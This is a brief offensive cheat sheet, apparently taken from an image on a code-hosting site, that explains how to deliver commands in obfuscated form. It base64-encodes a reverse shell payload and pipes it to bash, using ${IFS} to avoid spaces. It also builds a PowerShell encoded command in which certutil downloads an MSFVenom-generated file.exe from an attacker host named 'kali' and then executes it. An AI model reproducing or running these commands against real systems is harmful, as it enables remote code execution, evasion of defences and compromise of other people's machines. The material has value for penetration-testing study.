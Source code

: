 ### Command

#### 1) echo 'REVERSE_SHELL_PAYLOAD' | base64

#### 2) echo${IFS}BASE64_SHELL|base64${IFS}-d|bash

#### 3) Powershell Encoded:

### Payload to be encoded:

 - certutil.exe -f -urlcache http://kali/file.exe file.exe; .\file.exe

### Encoding :

 - [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('certutil.exe -f -urlcache http://kali/file.exe file.exe; .\file.exe'))

### Executing :

 - powershell.exe -nop -e [above encoded code]

### File.exe has been generated using MSFVenom
